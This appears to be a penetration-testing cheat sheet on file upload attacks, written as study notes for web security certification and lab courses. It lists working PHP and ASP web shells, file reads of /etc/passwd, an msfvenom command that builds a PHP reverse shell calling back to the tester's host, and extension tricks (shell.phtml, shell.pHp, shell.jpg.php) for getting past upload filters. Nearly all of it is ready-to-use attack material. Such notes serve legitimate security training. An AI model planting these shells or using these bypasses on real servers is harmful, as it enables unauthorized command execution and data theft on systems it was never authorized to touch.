 # File Upload Attacks  

>[Burp Suite Certified Practitioner study notes on file upload bypass](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study#file-uploads)  

## Web Shells

| **Web Shell**   | **Description**   |
| --------------|-------------------|
| `<?php file_get_contents('/etc/passwd'); ?>` | Basic PHP File Read |
| `<?php system('hostname'); ?>` | Basic PHP Command Execution |
| `<?php echo file_get_contents('/etc/hostname'); ?>` | PHP script that executes to get the (hostname) on the back-end server [Arbitrary File Upload](https://academy.hackthebox.com/module/136/section/1260) |
| `<?php system($_REQUEST['cmd']); ?>` | Basic PHP Web Shell |
| `<?php echo shell_exec($_GET[ "cmd" ]); ?>` | Alternative PHP Webshell using shell_exec function. |
| `<% eval request('cmd') %>` | Basic ASP Web Shell |
| `msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php` | Generate PHP reverse shell |
| `/usr/share/seclists/Web-Shells` | List of webshells for frameworks such as: CFM,FuzzDB,JSP,Laudanum, Magento, PHP, Vtiger and WordPress. |
| [PHP Web Shell](https://github.com/Arrexel/phpbash) | PHP Web Shell |
| [PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell) | PHP Reverse Shell |
| [Web/Reverse Shells](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) | List of Web Shells and Reverse Shells |

## Bypasses

| **Command**   | **Description**   |
| --------------|-------------------|
| **Client-Side Bypass** | [Bypass the client-side file type validations](https://academy.hackthebox.com/module/136/section/1280) |
| `[CTRL+SHIFT+C]` | Toggle Page Inspector |
| **Blacklist Bypass** | [Blacklist Filters](https://academy.hackthebox.com/module/136/section/1288) Use Burp Suite intruder to upload a single file name with list possible extensions. Then use intruder again to perform GET request on all the files upload to identify PHP execution on target. |
| `shell.phtml` | Uncommon Extension |
| `shell.pHp` | Case Manipulation |
| [PHP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst) | List of PHP Extensions |
| [ASP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP) | List of ASP Extensions |
| [Web Extensions](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt) | List of Web Extensions |
| **Whitelist Bypass** | [Whitelisting Extensions](https://academy.hackthebox.com/module/136/section/1289) |
| `shell.jpg.php` | Double Extension bypass example|
| `shell.php.jpg` | Reverse Double Extension |
